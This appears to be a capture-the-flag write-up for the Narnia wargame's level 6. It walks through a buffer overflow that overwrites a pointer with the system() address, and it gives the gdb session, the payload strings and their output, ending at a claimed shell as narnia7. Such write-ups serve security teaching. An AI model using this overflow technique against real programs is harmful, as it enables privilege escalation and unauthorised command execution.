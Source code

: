Now with a breakpoint at main, we can see all of the corresponding addresses to each assembly instruction. Most notably, system call is at 0x565555c5,so it follows that we should set a breakpoint there.

{% highlight bash %}
(gdb) b *0x565555c5               Breakpoint 2 at 0x565555c5(gdb) c  
Continuing.  
  
Breakpoint 2, 0x565555c5 in main ()  
(gdb) x/s $edx  
0x565555c5\:     "ls -la"
{% endhighlight %}

We can see that the ls -la command is in the edx register with an address of 0x565555c5. To get the address of the system function, we can simply type the following in the gdb console\:

{% highlight bash %}
(gdb) p system$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
{% endhighlight %}

The system is located at 0xf7e4c850.

#### Exploit

Therefore, we can flood the buffer with 8 bytes before overwriting the eip. Accordingly, the exploit will look like the following\:

COMMAND + JUNK + \\x50\\xc8\\xe4\\xf7 + ‘ ‘ + JUNK

Using this exploit template, we can run the narnia6 binary in gdb and pass this payload\:\:

{% highlight bash %}
(gdb) r $(python -c "print 'ls'+'A'*6+'\\x50\\xc8\\xe4\\xf7'+' '+'B'*4")  
The program being debugged has been started already.  
Start it from the beginning? (y or n) y  
Starting program\: /narnia/narnia6 $(python -c "print 'ls'+'A'*6+'\\x50\\xc8\\xe4\\xf7'+' '+'B'*4")  
sh\: 1\: lsAAAAAAP\: not found  
[Inferior 1 (process 21970) exited with code 01]
{% endhighlight %}

Note how the command + the junk (namely ‘ls’ + ‘A’ * 6) is equal to eight bytes

We can see that the sh command is trying to execute lsAAAAAAP, which is not a command. However, this can be easily resolved by adding a semicolon to the end of the ls command using one less ‘A’\:

{% highlight bash %}
(gdb) r $(python -c "print 'ls\;'+'A'*5+'\\x50\\xc8\\xe4\\xf7'+' '+'B'*4")  
Starting program\: /narnia/narnia6 $(python -c "print 'ls\;'+'A'*5+'\\x50\\xc8\\xe4\\xf7'+' '+'B'*4")  
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8  
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.csh\: 1\: AAAAAP\: not found  
[Inferior 1 (process 22579) exited with code 01]
{% endhighlight %}

The ls command was successfully executed. Running the narnia6 binary outside of gdb and implementing the sh command instead, we get a shell as narnia7\:
